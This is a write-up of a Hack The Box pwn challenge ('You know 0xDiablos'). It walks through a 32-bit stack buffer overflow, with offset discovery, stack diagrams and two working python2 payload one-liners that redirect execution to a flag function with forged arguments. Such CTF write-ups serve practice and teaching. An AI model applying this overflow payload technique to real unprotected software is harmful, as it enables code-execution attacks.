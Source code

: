 # You know 0xDiablos ~ HTB ~ Pwn Challenge
I started with basic checks on the ELF file:
- There are not any security techniques enabled. (Cannary, NX, ASLR)
- i386 | 32 bit -> little indian
- function vuln() : 0x08049272
- function flag() : 0x080491e2

By msf-pattern tools and GDB, I found that the return address stored 188 offset bytes on the stack. 

|   STACK FRAME  | |
| ------------ | ------------ |
|  return address | 4 bytes [target]  |
|  saved ebp |  4 bytes |
|  . |   |
|  . |   |
|  . |   |
|  . |   |
| start of buffer |  $esp |

`python2 -c "print '-'*188 + '\xe2\x91\x04\x08'" | (./vuln) (nc [ip] [port])`

By overwrite return address locally we get "Hurry up and try in on server side.", but remotely nothing happens.

So I decided to go through flag function code, and discovered they search for two arguments:
1. 0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef
2. 0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d

|   STACK FRAME  | |
| ------------ | ------------ |
| 0xc0ded00d |[argument 2]|
| 0xdeadbeef |[argument 1]|
| padding | 4 bytes |
|  return address | 4 bytes [target]  |
|  saved ebp |  4 bytes |
|  . |   |
|  . |   |
|  . |   |
|  . |   |
| start of buffer |  $esp |

`python2 -c "print '-'*188 + '\xe2\x91\x04\x08' + 'PADD' + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | (./vuln) (nc [ip] [port])`


*Written by Eyal Asulin©*
